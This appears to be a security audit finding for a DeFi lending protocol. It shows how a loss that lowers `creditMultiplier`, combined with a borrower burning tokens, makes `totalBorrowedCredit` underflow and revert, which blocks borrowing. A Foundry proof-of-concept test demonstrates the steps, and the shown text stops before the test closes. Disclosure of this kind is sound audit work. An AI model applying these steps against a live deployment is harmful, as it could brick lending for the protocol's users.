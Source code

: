 The function `totalBorrowedCredit` is used to get an estimate of the amount of credit borrowed out by the system. The issue is that changes in `creditMultiplier` affect this value and can even lead to a revert due to underflow.

The function `totalBorrowedCredit` is defined as follows:

```solidity
function totalBorrowedCredit() external view returns (uint256) {
  return CreditToken(credit).targetTotalSupply() - SimplePSM(psm).redeemableCredit();
}
```

The first term is the total supply of the credit tokens, including rebasing rewards. The second part is the amount of credit tokens that can be redeemed, and is defined as shown below:

```solidity
uint256 creditMultiplier = ProfitManager(profitManager)
    .creditMultiplier();
return (amountIn * decimalCorrection * 1e18) / creditMultiplier;
```

If `creditMultiplier` decreases due to a realized loss, the value returned by `redeemableCredit` goes up. If this value exceeds the `targetTotalSupply()` value, this function call will revert.

Assume a fresh market deployment. There are no loans at all. Alice now mints 1e18 credit tokens via the PSM, so the `targetTotalSupply()` is 1e18 and `redeemableCredit` is also 1e18. If the same situation is realized after the market has incurred a loss, the `creditMultiplier` will be less than 1e18, and the `redeemableCredit` will be greater than 1e18. This will cause the function to revert. A malicious borrower can also burn some of their credit tokens to help brick this function.

The `totalBorrowedCredit` function is used in `debtCeiling` calculations, and thus when it reverts it will also break term borrow operations, breaking functionality.

### Proof of Concept

In this POC the following steps are demonstrated:

1. User mints via PSM module.
2. A loss is realized, causing the `creditMultiplier` to decrease.
3. User burns up a bunch of their credit tokens, causing the `totalSupply` to drop.
4. The `totalBorrowedCredit` function call reverts.

Put this in the `ProfitManager.t.sol` file:

```solidity
function testAttackRevert() public {
  // grant roles to test contract
  vm.startPrank(governor);
  core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
  core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
  vm.stopPrank();

  emit log_named_uint('TBC 1', profitManager.totalBorrowedCredit());
  // psm mint 100 CREDIT
  pegToken.mint(address(this), 100e6);
  pegToken.approve(address(psm), 100e6);
  psm.mint(address(this), 100e6);

  emit log_named_uint('TBC 2', profitManager.totalBorrowedCredit());

  // apply a loss
  // 50 CREDIT of loans completely default (50 USD loss)
  profitManager.notifyPnL(address(this), -50e18);
  emit log_named_uint('TBC 3', profitManager.totalBorrowedCredit());

  // burn tokens to throw off the ratio
  credit.burn(70e18);
  vm.expectRevert();
  emit log_named_uint('TBC 4', profitManager.totalBorrowedCredit());
```